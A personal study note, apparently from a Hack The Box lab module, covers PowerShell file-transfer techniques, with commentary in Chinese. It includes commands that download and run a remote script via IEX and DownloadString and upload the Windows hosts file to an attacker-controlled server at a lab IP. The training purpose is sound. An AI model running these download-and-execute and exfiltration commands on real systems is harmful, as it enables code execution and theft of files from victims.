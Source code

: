 



## Upload

### PowerShell Base64 Encode & Decode

```powershell-session
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

IyBD...<SNIP>...0DQo=

PS C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```

上面命令是编码UTF-16LE，`base64 -d`竟然可以解码——似乎是因为用了`-Encoding byte`，将以字节单位读取指定文件而不是基于系统的默认编码（Windows的话UTF-16LE）。文件内容被直接读取为字节数组，没有进行任何字符编码转换。这种方式适用于需要处理二进制文件或想直接操作文件的原始字节数据的情况。
```shell-session
TimeLess613@htb[/htb]$ echo IyBD...<SNIP>...0DQo= | base64 -d > hosts

TimeLess613@htb[/htb]$ md5sum hosts 
```


### PowerShell Web Uploads

#### Installing a Configured WebServer with Upload

> uploadserver, an extended module of the Python [HTTP.server module](https://docs.python.org/3/library/http.server.html)

```shell-session
TimeLess613@htb[/htb]$ pip3 install uploadserver
TimeLess613@htb[/htb]$ python3 -m uploadserver
```

#### PowerShell Script to Upload a File to Python Upload Server

```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```

**打靶版本（本地先下载脚本）：**
```powershell
$me='10.10.14.221'; IEX (New-Object Net.WebClient).DownloadString("http://$($me):80/PSUpload.ps1"); Invoke-FileUpload -Uri "http://$($me):8000/upload" -File "C:\Windows\System32\drivers\etc\hosts"
```
